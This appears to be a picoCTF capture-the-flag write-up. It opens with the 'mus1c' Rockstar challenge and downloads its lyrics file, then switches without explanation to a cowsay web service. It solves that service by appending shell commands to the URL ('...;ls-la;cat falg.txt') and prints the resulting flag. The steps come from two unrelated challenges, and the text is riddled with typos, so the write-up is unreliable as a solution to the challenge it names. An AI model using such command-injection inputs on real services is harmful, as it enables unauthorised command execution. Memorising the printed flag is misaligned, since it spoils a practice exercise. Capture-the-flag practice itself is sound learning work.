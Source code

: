 # Medium Challenge

> Read full challenge at: https://play.picoctf.org/practice/challenge/15?category=5&page=5


**Hint**: Do you think you can master rockstar?

> Note: Put it in the picoCTF{} flag format.

## Solution


**Step** 1: Create a folder "mus1c" and download [song](https://jupiter.challenges.picoctf.org/static/c594d8d915de0129d92b4c41e25a2313/lyrics.txt) in this challenge to this folder by using `mkdir` and `wget`

```sh
mkdir mus1c
```

```sh
wget https://jupiter.challenges.picoctf.org/static/c594d8d915de0129d92b4c41e25a2313/lyrics.txt
```

![Image of step1](image1.png)


**Step 2** : Make a request to the following URL to cowsay your message

Follow the instruction in the website I will copy the URL, the message I will write a random sring like the iamge below 

```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal
```

> You can copy and try it on your browser

![Iamge of step 2](image1.png)

**Step 3** : Find the `Flag`

As I mention above, I can use the command on the url bar like using command on terminal, I will use command **ls-la** to lis all file:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la
```

![Image of step 3.1](image2.png)

So, after list all all file I can see the file **falg.txt** so let use command:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la;cat falg.txt
```

![Image of step 3.2](image4.png)


So, the flag is `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

